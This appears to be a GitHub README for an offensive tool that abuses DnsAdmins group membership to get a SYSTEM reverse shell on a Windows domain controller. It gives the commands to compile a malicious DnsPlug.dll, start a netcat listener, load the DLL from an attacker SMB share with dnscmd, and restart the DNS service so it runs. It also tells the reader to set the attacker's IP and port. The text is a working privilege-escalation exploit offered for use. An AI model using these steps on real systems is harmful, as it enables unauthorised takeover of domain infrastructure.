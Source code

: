 ## Gain system reverse shell from domain user with Dnsadmin group
  
    
Reverse shell is practically copy-paste from dev-frog/C-Reverse-Shell (here on Github)  
The DNS api are greatly inspired by vbscrub  
  
# Compile & execute
*NB!:* Remember to edit the `DnsPlug.cpp` file to match IP and Port of attacker.
```bash
# x86_64-w64-mingw32-gcc -shared -o DnsPlug.dll DnsPlug.cpp -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
.. Setup NC listener
# nc -lnvp 443
.. go to Windows machine
PS > dnscmd.exe <target.ip> /config /serverlevelplugindll \\<your_smb>\<share_name>\DnsPlug.dll
PS > sc.exe \\<target.ip> stop dns
PS > sc.exe \\<target.ip> start dns
```
